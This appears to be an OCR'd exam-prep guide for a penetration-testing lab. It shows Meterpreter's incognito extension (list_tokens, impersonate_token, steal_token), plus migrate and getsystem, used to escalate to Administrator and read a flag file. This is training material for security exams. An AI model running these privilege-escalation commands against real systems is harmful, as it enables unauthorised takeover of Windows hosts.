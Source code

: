 ### **🔍 Exam Question Patterns:**
1. **"What tokens are available for impersonation?"**
   - Use: `list_tokens -u`

2. **"Escalate privileges using token impersonation"**
   - Use: `load incognito`, `impersonate_token`, verify with `getuid`

3. **"Access the file located at C:\Users\Administrator\Desktop\flag.txt"**
   - Requires: Administrator token impersonation first

4. **"What is your current privilege level after impersonation?"**
   - Use: `getuid` command to display current user context

---

## ⚠️ Common Issues and Expert Solutions

### **❌ Problem 1: No Delegation Tokens Available**

**What You See:**
```bash
meterpreter > list_tokens -u
Delegation Tokens Available
========================================
No tokens available

Impersonation Tokens Available
========================================
No tokens available
```

**Why This Happens:**
- Current process lacks sufficient privileges
- No other users have logged into the system recently
- Running from low-privilege context

**Expert Solutions:**
```bash
# Solution 1: Process migration to higher privilege process
ps
# Look for processes running as SYSTEM or Administrator
migrate [PID_of_target_process]
load incognito
list_tokens -u

# Solution 2: Alternative privilege escalation first
getsystem
load incognito
list_tokens -u

# Solution 3: Check for impersonation tokens and steal from processes
list_tokens -g
ps
steal_token [PID_of_administrator_process]
```
